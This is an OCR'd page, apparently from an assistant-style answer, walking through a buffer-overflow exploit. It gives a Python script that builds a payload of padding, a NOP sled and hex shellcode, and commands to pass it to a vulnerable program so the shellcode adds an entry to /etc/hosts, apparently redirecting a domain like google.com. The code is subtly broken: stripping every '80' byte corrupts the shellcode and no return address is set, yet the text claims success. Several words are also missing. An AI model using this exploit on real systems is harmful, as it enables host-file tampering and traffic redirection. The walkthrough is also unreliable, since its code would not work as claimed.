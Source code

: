    Here's a sample Python script to convert our hex string to binary format and trigger the buffer overflow:

   ```python
   import sys

   # Hex shellcode provided
   shellcode_hex = (
       "31c980f7e180b005805180686f73747380682f2f2f6880682f6574638089e380"
       "66b90104cd8093806a045880eb108059806a145acd806a065acd806a015acd80"
       "e8ebffffffca80313280372e312e80312e80312080676f806f676c80652e636f6d"
   )

   # Convert hex to raw bytes
   shellcode = bytes.fromhex(shellcode_hex.replace("80", ""))

   # Create payload: Padding (16 'A's) + NOP sled + Shellcode
   payload = b'A' * 16 + b'\x90' * 100 + shellcode

   # Print the payload
   sys.stdout.buffer.write(payload)
   ```

   - Save this script as `exploit.py` and run it:

     ```bash
     python3 exploit.py > input_payload
     ```

2. **Run the Vulnerable Program with the Payload**:
   - Use the generated payload (`input_payload`) as input to our vulnerable program:

     ```bash
     ./vuln $(cat input_payload)
     ```

   This  trigger the buffer overflow and execute our shellcode, which will modify the `/etc/hosts` file by adding a new entry.

### Explanation:

- **NOP sled**: The payload includes a series of `NOP` instructions (`\x90`), which serve as a buffer zone to ensure that the shellcode is executed correctly.
- **Shellcode**: The actual shellcode is placed after the NOP sled and will be executed once the buffer overflow is triggered.
- **Buffer overflow**: The vulnerable C program has a buffer of 16 bytes (`char buffer[16]`), which we overflow with 16 `A`s, followed by the NOP sled and the shellcode.

### Conclusion:

By running the Python script and passing the generated payload to the vulnerable program, we  be able to successfully trigger the buffer overflow and execute the shellcode, which will add an entry to `/etc/hosts`.

Let me know if we need further clarification!
